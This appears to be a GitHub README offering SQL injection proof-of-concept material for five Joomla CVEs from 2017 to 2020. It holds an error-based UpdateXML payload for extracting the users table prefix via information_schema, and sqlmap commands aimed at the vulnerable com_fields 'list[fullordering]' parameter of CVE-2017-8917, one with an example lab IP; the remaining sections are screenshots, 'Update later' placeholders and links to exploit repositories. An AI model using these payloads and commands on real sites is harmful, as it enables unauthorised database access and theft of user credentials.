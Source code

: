 # Joomla-SQLinjection PoC

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917

# Payload to detect prefix table
## Step 1: Get hexa value
*UpdateXML(2, concat(0x3a,(SELECT HEX(MID(TABLE_NAME,1,16)) FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT 1,1), 0x3a), 1)*
## Step 2: Convert hexa to ASCII
+) Linux command: echo "hexa value" | xxd -r -p

+) Link: https://www.rapidtables.com/convert/number/hex-to-ascii.html

# 5. CVE-2017-8917
### User requirement: None
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77494259-ddd35680-6e77-11ea-8331-106c89b48f7c.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
# 4. CVE-2018-6376
### User requirement: Manager (Lowest level)
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77607304-73d8b100-6f4c-11ea-9c6b-72a56c55efda.png)

### Second-url:

![image](https://user-images.githubusercontent.com/24661746/77607359-a7b3d680-6f4c-11ea-9f66-78b24b5ee895.png)

## 3. CVE-2018-8045
### User requirement: Administrator
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77608547-25c5ac80-6f50-11ea-9495-b13b00448d1c.png)
## 2. CVE-2019-19846
### User requirement: Super Users
## Detecting:
...Update later-...
## 1. CVE-2020-10243
### User requirement: Administrator
## Detecting:
...Update later-...
### Second-url:
...Update later-...

Reference:
1. https://github.com/HoangKien1020/CVE-2020-10243
2. https://xz.aliyun.com/t/6990
3. https://github.com/luckybool1020/CVE-2018-8045
4. https://www.notsosecure.com/analyzing-cve-2018-6376/
5. https://github.com/gottburgm/Exploits/tree/master/CVE-2017-8917
